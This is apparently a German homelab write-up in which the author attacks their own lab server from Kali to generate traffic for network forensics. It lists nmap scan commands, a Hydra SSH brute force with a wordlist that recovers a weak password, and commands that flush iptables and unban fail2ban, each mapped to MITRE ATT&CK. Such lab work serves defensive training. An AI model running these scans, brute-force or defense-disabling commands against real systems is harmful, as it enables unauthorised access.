




# 03 — Attack Scenario

## Übersicht

Vier Angriffe wurden von Kali (192.168.178.129) gegen aegis-sentinel (192.168.178.126) ausgeführt, während `tcpdump` alles aufnahm.

---

## Angriff 1 — nmap SYN Scan

```bash
sudo nmap -sS -A -T4 192.168.178.126
```

| Flag | Bedeutung |
|:-----|:----------|
| `-sS` | SYN Scan — schickt nur SYN, wartet auf Antwort, sendet kein ACK |
| `-A` | Aggressiv — OS, Version, Traceroute |
| `-T4` | Schnell |

**Ergebnis:**



```
PORT   STATE  SERVICE  VERSION
22/tcp open   ssh      OpenSSH 9.6p1 Ubuntu
OS: Linux 4.15-5.19
```

**MITRE:** T1595 — Active Scanning

---

## Angriff 2 — nmap OS Fingerprinting

```bash
sudo nmap -O 192.168.178.126
```

**Ergebnis:**



**Besonderheit:** nmap schickt absichtlich unmögliche Flag-Kombinationen (`FIN+SYN+PSH+URG`) — im PCAP sofort erkennbar.

**MITRE:** T1595 — Active Scanning

---

## Angriff 3 — nmap Service Version Detection

```bash
sudo nmap -sV 192.168.178.126
```

**Ergebnis:**



```
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.15
```

**Besonderheit:** nmap liest den SSH Banner und identifiziert sich dabei selbst als `SSH-2.0-NmapNSE` — im PCAP sichtbar.

**MITRE:** T1595 — Active Scanning

---

## Angriff 4 — Hydra SSH Brute Force

```bash
hydra -l aegis-siem -P /tmp/rockyou_9800.txt ssh://192.168.178.126
```

**Ergebnis:**



```
[22][ssh] host: 192.168.178.126   login: aegis-siem   password: 1111 ✅
```

**Hinweis:** fail2ban aus Ch.02 war noch aktiv — hat Kali nach 5 Versuchen geblockt. Deshalb mussten wir zuerst die Blockierung aufheben:

```bash
sudo iptables -F
sudo fail2ban-client unban --all
```

**MITRE:** T1110.001 → T1078

---

## MITRE ATT&CK Kill Chain

| Phase | Technik | ID | Tool |
|:------|:--------|:---|:-----|
| Reconnaissance | Active Scanning | T1595 | nmap -sS |
| Reconnaissance | Active Scanning | T1595 | nmap -O |
| Reconnaissance | Active Scanning | T1595 | nmap -sV |
| Credential Access | Brute Force | T1110.001 | Hydra |
| Initial Access | Valid Accounts | T1078 | Hydra |

---

*homelab_AEGIS · github.com/cyb-ersin · Ch.03 — Network Forensics & PCAP Analysis*
